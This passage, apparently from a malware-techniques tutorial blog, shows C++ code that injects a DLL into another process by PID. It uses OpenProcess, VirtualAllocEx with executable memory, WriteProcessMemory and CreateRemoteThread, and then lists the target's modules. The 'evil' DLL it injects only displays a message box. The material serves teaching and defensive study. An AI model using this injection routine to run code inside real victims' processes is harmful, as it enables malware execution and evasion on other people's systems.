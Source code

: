 ```cpp

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  // enumerate modules
  printf("\nenumerate modules... \n");
  EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);

  CloseHandle(ph);
  return 0;
}
```

For simplicity, as usually, my "evil" DLL is just `meow` messagebox (`evil.c`):    

```cpp
/*
evil.c
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```
